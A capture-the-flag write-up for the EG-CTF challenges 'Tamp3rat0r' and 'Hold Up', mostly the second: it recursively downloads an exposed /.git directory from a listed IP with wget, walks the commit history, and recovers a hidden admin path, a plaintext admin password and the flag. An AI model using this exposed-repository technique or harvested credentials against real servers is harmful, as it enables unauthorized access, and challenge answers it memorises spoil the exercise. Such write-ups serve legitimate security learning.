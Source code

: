 # EG-CTF
# Write-Up
# 1-Tamp3rat0r
I have check the site and They asked me about username and password and by guess seems like http authentication bypass
and worked. check Tamp3rat0r.py
# 2-Hold Up
i test it with DWP and i found /.git path working and i download the directory
root@cloudshell: wget --recursive --no-parent http://172.105.76.128/.git/
root@cloudshell: ls
172.105.76.128  
root@cloudshell: cd 172.105.76.128/
root@cloudshell:/172.105.76.128 ls -a
.  ..  .git
root@cloudshell:/172.105.76.128 cd .git/
root@cloudshell:/172.105.76.128/.git ls
branches        config       HEAD   index       index.html?C=D;O=A  index.html?C=M;O=A  index.html?C=N;O=A  index.html?C=S;O=A  info  objects
COMMIT_EDITMSG  description  hooks  index.html  index.html?C=D;O=D  index.html?C=M;O=D  index.html?C=N;O=D  index.html?C=S;O=D  logs  refs
// let's check the commits
root@cloudshell:/172.105.76.128/.git git reflog
2e3e1a8 HEAD@{0}: commit: Refining
89329fa HEAD@{1}: commit: NewFeature
dfecece HEAD@{2}: commit: Addinfo
b032cf8 HEAD@{3}: commit: Disable
5b9e491 HEAD@{4}: commit: DelCr
457168f HEAD@{5}: commit: AddUsetting
b55d897 HEAD@{6}: commit: editconf
70ae358 HEAD@{7}: commit (initial): initials
// i have check this commits one by one and i found 
root@cloudshell:/172.105.76.128/.gitgit show 2e3e1a8
commit 2e3e1a8c124768ecbb31e92d5c070003924b9254
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:18:26 2019 +0100

    Refining

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 3d7f801..706d93b 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -420,15 +420,6 @@ CONFIG = array(
 'overwriteprotocol' => '',

 /**
- * Override webroot
- * ownCloud attempts to detect the webroot for generating URLs automatically.
- * For example, if `www.example.com/owncloud` is the URL pointing to the
- * ownCloud instance, the webroot is `/owncloud`. When proxies are in use, it
- * may be difficult for ownCloud to detect this parameter, resulting in invalid URLs.
- */
-'overwritewebroot' => '',
-
-/
   Override condition
   This option allows you to define a manual override condition as a regular
   expression for the remote IP address. The keys `overwritewebroot`,
// this show us the path of admin log in is /S3cR3tPaTh/
root@cloudshell:/172.105.76.128/.gitgit show 5b9e491
commit 5b9e491802d53d6af1ef25206ccb0765b64a248b
Author: Ben ALaa <a.alaa@egcert.eg>
Date:   Thu Nov 14 23:15:11 2019 +0100

    DelCr

diff --git a/S3cR3tPaTh/config.php b/S3cR3tPaTh/config.php
index 46ed4f3..72e9842 100644
--- a/S3cR3tPaTh/config.php
+++ b/S3cR3tPaTh/config.php
@@ -194,7 +194,7 @@ CONFIG = array(
 'knowledgebaseenabled' => true,

 /**
- * Enables or disables avatars or user profile photos
+ /* Enables or disables avatars or user profile photos
  * `true` enables avatars, or user profile photos, `false` disables them.
  * These appear on the User page, on user's Personal pages and are used by some apps
  * (contacts, mail, etc).
@@ -469,15 +469,7 @@ CONFIG = array(



-
- Admin Credentials
-
-'Admin_Login' => 'Administrator'
-'Admin_Password' => 'FN3ym@bZNaF&'

///////////////////////////////////////////////////////////////// \n
admin = Administrator
password = FN3ym@bZNaF&
after i try it #flag : EGCTF{Co0o0o0L_I_g0t_Th3_R3p0} \n
sorry if something it's not clear \n
//////////////////////////////////////////////////////////////////
